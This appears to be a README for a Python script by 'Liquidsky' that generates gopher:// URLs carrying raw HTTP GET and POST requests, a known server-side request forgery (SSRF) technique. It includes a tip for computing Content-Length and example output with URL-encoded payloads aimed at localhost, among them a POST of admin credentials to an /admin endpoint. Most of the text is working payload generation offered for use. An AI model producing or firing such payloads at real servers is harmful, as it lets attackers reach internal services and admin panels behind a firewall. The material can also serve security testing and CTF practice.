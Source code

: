 Gopher HTTP requests (POST/GET) | By: Liquidsky

URL: gopher: // <host>:<port>/<gopher-path>_ followed by TCP data stream

Tip for determing POST request length:

└─$ echo "username=admin&password=admin" | wc -c 
 
 30
 
 Subtract 1 from this result. = 29 -> Then add this to content length header.

Example output:

└─$ python3 gopher-requests.py

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 1

[x] Gopher GET Request: 
gopher://localhost:80/_GET%20/%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0A

[!] Happy Hacking ^_~

    1. Gopher GET Request
    2. Gopher POST Request
    
[*] Please select GET (1) or POST (2) request: 2

[?] Informational: The four HTTP headers above are required for POST requests, namely POST, Host, Content-Type and Content-Length. If it is missing, an error will be reported, but GET does not use it.

[x] Gopher POST Request: 
gopher://127.0.0.1:80/_POST%20/admin%20HTTP/1.1%0D%0AHost%3A%20127.0.0.1%0D%0AContent-Type%3A%20application/x-www-form-urlencoded%0D%0AContent-Length%3A%2029%0D%0A%0D%0Ausername%3Dadmin%26password%3Dadmin%0D%0A

[!] Happy Hacking ^_~
